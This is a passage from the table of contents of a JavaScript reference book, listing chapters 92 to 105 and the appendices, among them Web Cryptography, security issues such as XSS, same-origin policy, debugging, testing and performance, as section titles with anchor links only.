[414](#section-92.2-getting-current-battery-level)](#section-92.2-getting-current-battery-level)

[Section 92.3: Is battery charging?
[414](#section-92.3-is-battery-charging)](#section-92.3-is-battery-charging)

[Section 92.4: Get time left until battery is empty
[414](#section-92.4-get-time-left-until-battery-is-empty)](#section-92.4-get-time-left-until-battery-is-empty)

[Section 92.5: Get time left until battery is fully charged
[414](#section-92.5-get-time-left-until-battery-is-fully-charged)](#section-92.5-get-time-left-until-battery-is-fully-charged)

[**Chapter 93: Fluent API**
[415](#chapter-93-fluent-api)](#chapter-93-fluent-api)

[Section 93.1: Fluent API capturing construction of HTML articles with
JS
[415](#section-93.1-fluent-api-capturing-construction-of-html-articles-with-js)](#section-93.1-fluent-api-capturing-construction-of-html-articles-with-js)

[**Chapter 94: Web Cryptography API**
[417](#chapter-94-web-cryptography-api)](#chapter-94-web-cryptography-api)

[Section 94.1: Creating digests (e.g. SHA-256)
[417](#section-94.1-creating-digests-e.g.-sha-256)](#section-94.1-creating-digests-e.g.-sha-256)

[Section 94.2: Cryptographically random data
[417](#section-94.2-cryptographically-random-data)](#section-94.2-cryptographically-random-data)

[Section 94.3: Generating RSA key pair and converting to PEM format
[418](#section-94.3-generating-rsa-key-pair-and-converting-to-pem-format)](#section-94.3-generating-rsa-key-pair-and-converting-to-pem-format)

[Section 94.4: Converting PEM key pair to CryptoKey
[419](#section-94.4-converting-pem-key-pair-to-cryptokey)](#section-94.4-converting-pem-key-pair-to-cryptokey)

[**Chapter 95: Security issues**
[421](#chapter-95-security-issues)](#chapter-95-security-issues)

[Section 95.1: Reflected Cross-site scripting (XSS)
[421](#section-95.1-reflected-cross-site-scripting-xss)](#section-95.1-reflected-cross-site-scripting-xss)

[Section 95.2: Persistent Cross-site scripting (XSS)
[422](#section-95.2-persistent-cross-site-scripting-xss)](#section-95.2-persistent-cross-site-scripting-xss)

[Section 95.3: Persistent Cross-site scripting from JavaScript string
literals
[423](#section-95.3-persistent-cross-site-scripting-from-javascript-string-literals)](#section-95.3-persistent-cross-site-scripting-from-javascript-string-literals)

[Section 95.4: Why scripts from other people can harm your website and
its visitors
[423](#section-95.4-why-scripts-from-other-people-can-harm-your-website-and-its-visitors)](#section-95.4-why-scripts-from-other-people-can-harm-your-website-and-its-visitors)

[Section 95.5: Evaled JSON injection
[424](#section-95.5-evaled-json-injection)](#section-95.5-evaled-json-injection)

[**Chapter 96: Same Origin Policy & Cross-Origin Communication**
[426](#chapter-96-same-origin-policy-crossorigin-communication)](#chapter-96-same-origin-policy-crossorigin-communication)

[Section 96.1: Safe cross-origin communication with messages
[426](#section-96.1-safe-cross-origin-communication-with-messages)](#section-96.1-safe-cross-origin-communication-with-messages)

[Section 96.2: Ways to circumvent Same-Origin Policy
[427](#section-96.2-ways-to-circumvent-same-origin-policy)](#section-96.2-ways-to-circumvent-same-origin-policy)

[**Chapter 97: Error Handling**
[429](#chapter-97-error-handling)](#chapter-97-error-handling)

[Section 97.1: Error objects
[429](#section-97.1-error-objects)](#section-97.1-error-objects)

[Section 97.2: Interaction with Promises
[429](#section-97.2-interaction-with-promises)](#section-97.2-interaction-with-promises)

[Section 97.3: Error types
[430](#section-97.3-error-types)](#section-97.3-error-types)

[Section 97.4: Order of operations plus advanced thoughts
[430](#section-97.4-order-of-operations-plus-advanced-thoughts)](#section-97.4-order-of-operations-plus-advanced-thoughts)

[**Chapter 98: Global error handling in browsers**
[433](#chapter-98-global-error-handling-in-browsers)](#chapter-98-global-error-handling-in-browsers)

[Section 98.1: Handling window.onerror to report all errors back to the
server-side
[433](#section-98.1-handling-window.onerror-to-report-all-errors-back-to-the-server-side)](#section-98.1-handling-window.onerror-to-report-all-errors-back-to-the-server-side)

[**Chapter 99: Debugging**
[435](#chapter-99-debugging)](#chapter-99-debugging)

[Section 99.1: Interactive interpreter variables
[435](#section-99.1-interactive-interpreter-variables)](#section-99.1-interactive-interpreter-variables)

[Section 99.2: Breakpoints
[435](#section-99.2-breakpoints)](#section-99.2-breakpoints)

[Section 99.3: Using setters and getters to find what changed a property
[436](#section-99.3-using-setters-and-getters-to-find-what-changed-a-property)](#section-99.3-using-setters-and-getters-to-find-what-changed-a-property)

[Section 99.4: Using the console
[437](#section-99.4-using-the-console)](#section-99.4-using-the-console)

[Section 99.5: Automatically pausing execution
[438](#section-99.5-automatically-pausing-execution)](#section-99.5-automatically-pausing-execution)

[Section 99.6: Elements inspector
[438](#section-99.6-elements-inspector)](#section-99.6-elements-inspector)

[Section 99.7: Break when a function is called
[438](#section-99.7-break-when-a-function-is-called)](#section-99.7-break-when-a-function-is-called)

[Section 99.8: Stepping through code
[439](#section-99.8-stepping-through-code)](#section-99.8-stepping-through-code)

[**Chapter 100: Unit Testing JavaScript**
[440](#chapter-100-unit-testing-javascript)](#chapter-100-unit-testing-javascript)

[Section 100.1: Unit Testing Promises with Mocha, Sinon, Chai and
Proxyquire
[440](#section-100.1-unit-testing-promises-with-mocha-sinon-chai-and-proxyquire)](#section-100.1-unit-testing-promises-with-mocha-sinon-chai-and-proxyquire)

[Section 100.2: Basic Assertion
[442](#section-100.2-basic-assertion)](#section-100.2-basic-assertion)

[**Chapter 101: Evaluating JavaScript**
[444](#chapter-101-evaluating-javascript)](#chapter-101-evaluating-javascript)

[Section 101.1: Evaluate a string of JavaScript statements
[444](#section-101.1-evaluate-a-string-of-javascript-statements)](#section-101.1-evaluate-a-string-of-javascript-statements)

[Section 101.2: Introduction
[444](#section-101.2-introduction)](#section-101.2-introduction)

[Section 101.3: Evaluation and Math
[444](#section-101.3-evaluation-and-math)](#section-101.3-evaluation-and-math)

[<b>Chapter 102: Linters - Ensuring code quality</b>
[445](#chapter-102-lintersensuring-code-quality)](#chapter-102-lintersensuring-code-quality)

[Section 102.1: JSHint
[445](#section-102.1-jshint)](#section-102.1-jshint)

[Section 102.2: ESLint / JSCS
[446](#section-102.2-eslint-jscs)](#section-102.2-eslint-jscs)

[Section 102.3: JSLint
[446](#section-102.3-jslint)](#section-102.3-jslint)

[<b>Chapter 103: Anti-patterns</b>
[447](#chapter-103-anti-patterns)](#chapter-103-anti-patterns)

[Section 103.1: Chaining assignments in var declarations
[447](#section-103.1-chaining-assignments-in-var-declarations)](#section-103.1-chaining-assignments-in-var-declarations)

[<b>Chapter 104: Performance Tips</b>
[448](#chapter-104-performance-tips)](#chapter-104-performance-tips)

[Section 104.1: Avoid try/catch in performance-critical functions
[448](#section-104.1-avoid-trycatch-in-performance-critical-functions)](#section-104.1-avoid-trycatch-in-performance-critical-functions)

[Section 104.2: Limit DOM Updates
[448](#section-104.2-limit-dom-updates)](#section-104.2-limit-dom-updates)

[Section 104.3: Benchmarking your code - measuring execution time
[449](#section-104.3-benchmarking-your-codemeasuring-execution-time)](#section-104.3-benchmarking-your-codemeasuring-execution-time)

[Section 104.4: Use a memoizer for heavy-computing functions
[451](#section-104.4-use-a-memoizer-for-heavy-computing-functions)](#section-104.4-use-a-memoizer-for-heavy-computing-functions)

[Section 104.5: Initializing object properties with null
[453](#section-104.5-initializing-object-properties-with-null)](#section-104.5-initializing-object-properties-with-null)

[Section 104.6: Reuse objects rather than recreate
[454](#section-104.6-reuse-objects-rather-than-recreate)](#section-104.6-reuse-objects-rather-than-recreate)

[Section 104.7: Prefer local variables to globals, attributes, and
indexed values
[455](#section-104.7-prefer-local-variables-to-globals-attributes-and-indexed-values)](#section-104.7-prefer-local-variables-to-globals-attributes-and-indexed-values)

[Section 104.8: Be consistent in use of Numbers
[456](#section-104.8-be-consistent-in-use-of-numbers)](#section-104.8-be-consistent-in-use-of-numbers)

[<b>Chapter 105: Memory efficiency</b>
[458](#chapter-105-memory-eciency)](#chapter-105-memory-eciency)

[Section 105.1: Drawback of creating true private method
[458](#section-105.1-drawback-of-creating-true-private-method)](#section-105.1-drawback-of-creating-true-private-method)

[<b>Appendix A: Reserved Keywords</b>
[459](#appendix-a-reserved-keywords)](#appendix-a-reserved-keywords)

[Section A.1: Reserved Keywords
[459](#section-a.1-reserved-keywords)](#section-a.1-reserved-keywords)

[Section A.2: Identifiers & Identifier Names
[461](#section-a.2-identifiers-identifier-names)](#section-a.2-identifiers-identifier-names)

[<b>Credits</b> [463](#credits)](#credits)

[<b>You may also like</b> [474](#you-may-also-like)](#you-may-also-like)

